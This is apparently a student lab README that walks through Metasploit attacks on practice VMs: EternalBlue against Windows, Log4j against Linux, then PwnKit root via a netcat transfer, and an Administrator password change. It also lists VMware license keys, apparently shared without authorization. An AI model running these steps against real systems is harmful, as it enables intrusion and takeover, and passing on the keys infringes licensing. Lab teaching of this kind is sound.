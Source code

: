 # IntroMetasploit

BY : :flying_saucer: Cr4zyD14m0nd :milky_way:

## Summary:

Metasploit introduction.

Tasks to do:

1. Exploit an eternal blue vulnarability in windows.
2. Exploit a log4j vulnerability in Linux.

## Description

We will make an attack to two machines and escalate privilege.

- Parrot OS, is an operative system maded for pentesters by pentesters based on debian, it is open source.

- Scripts maded by Cr4zyD14m0nd, these scripts will automate some boring tasks like the instalation of some tools, this scipts are maded in bash.

- Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers.

- EternalBlue exploits SMBv1 vulnerabilities to insert malicious data packets and spread malware over the network. The exploit makes use of the way Microsoft Windows handles, or rather mishandles, specially crafted packets from malicious attackers.

- The Log4j vulnerability allows malicious attackers to execute code remotely on any targeted computer. What is Log4j : Log4j an open source software, a logging library for Java, is widely used by businesses and web portals. Earlier this month, this open source software was in the news for its vulnerabilities.

## Steps To Reproduce:

1. Set up

    1. Download vmware or virtualbox [1]
    Keys for vmware Plater 16.1.1
    ZF3R0-FHED2-M80TY-8QYGC-NPKYF
    YF390-0HF8P-M81RQ-2DXQE-M2UT6
    ZF71R-DMX85-08DQY-8YMNC-PPHV8
    AZ3E8-DCD8J-0842Z-N6NZE-XPKYF
    2. Download Parrot iso or parrot for vms [2]
    3. Follow the links of how to install vmware [3]
    4. Follow the links of how to setup parrot in vmware [4]
    5. Verify that you are using Host only in your parrot machine [5]
    6. Donwload the linux and the windows machines and open it in virtualbox, if you do this in vmware you will get an error message. [6]
    7. Now put the Host Only adapter to the machines. [7]
    8. Turn on your parrot maching and login [8]
    9. Turn on the windows machine and the ubuntu machine [9]
    10. make a git clone from Cr4zyD14m0nd repository from this repository: https://github.com/Cr4zyD14m0nd/TareaSocialEngennering (git clone 'url') [10]

### Windows machine.

1. Windows Attack

    1. In the folder MetasploitIntro you have a script, before do anything you need to be a root user.

        `sudo su`
        `Enter your password`

    2. Now we need to give the permisions to the script.

        `chmod +x IntroMetasploit.sh`

    3. Now run the first script.

        `./InstalacionSetoolkit.sh`

    4. Now we have the script running and all the requirements installed, the next step is navigate through the menu.

        First exploit the windows machine choosing the option 1, once finished the process you can exit and ctrl + c to run again the script and then chose the option 2 to exploit the linux machine.

    5. Enter the required options to the script.

    6. Once you have a meterpreter session you need enter te next commands.

        `getuid`
        `shell`
        `cd ..`
        `cd ..`
        `cd Users`
        `cd Administrator`
        `cd Documents`
        `type secret.txt.txt`
    
    7. Now open a new terminal and use the root user and follow the instructions.

        type in the new terminal `rdesktop 192.168.56.10`, Enter and type yes.
        Once you have a remote desktop go to the Start button click them and navigate to control panel, once you are in the control panel section, go to add or remove accounts, go to administrator and change the password.


    ### Attacking linux

    1. Run the script IntroMetasploit.sh and chose the option 2 and enter the required parameters.

        `./IntroMetasploit.sh`

    2. Now you are in the machine, the next step is get a root user for this we will use the Pwnkit exploit.

        You can download the pwnkit exploit or use it from the folder that you downloaded at the begining

    * https://github.com/ly4k/PwnKit

    3. Now you need to open another terminal in the folder were you have the pwnkit exploit.

    4. in your first terminal type:

        `nc -l -p 1337 > Pwnkit`

    5. In the second terminal type:

        `nc -w 3 192.168.56.20 1337 < Pwnkit`

    6. Now in the first terminal give it the execute permisions to Pwnkit.

        `chmod +x Pwnkit`
    
    7. And then excecute it.

        `./Pwnkit`

    8. Now you are root, to confirm it run the next command.

        `id`
    
    ## Supporting material:

    Download Parrot iso or parrot for vms [1]

    Download vmware or virtualbox [1]
    Keys for vmware Player 16.1.1
    ZF3R0-FHED2-M80TY-8QYGC-NPKYF
    YF390-0HF8P-M81RQ-2DXQE-M2UT6
    ZF71R-DMX85-08DQY-8YMNC-PPHV8
    AZ3E8-DCD8J-0842Z-N6NZE-XPKYF

    Follow the links of how to install vmware [1]
    Follow the links of how to setup parrot in vmware [2]

    [1] https://www.parrotsec.org

    [2] https://www.youtube.com/watch?v=9QXXyG0hKtI
    
    [3] https://www.youtube.com/watch?v=NoivU2LrUrI

    [4] If you dont have the log4j exploit you can download it from here:
    [4] https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/log4shell_header_injection.rb

    [5] How to put your adapter in Host only.
    [5] https://www.youtube.com/watch?v=FlP0YUKPHGo
    
    [6] PwnKit
    [6] https://github.com/ly4k/PwnKit
    
    [7] Download machines
    [7] https://storage.googleapis.com/isos-iteso-esi-1/isos/WindowsServer2008.ova
    [7] https://storage.googleapis.com/isos-iteso-esi-1/isos/ubuntuWeb_test.ova
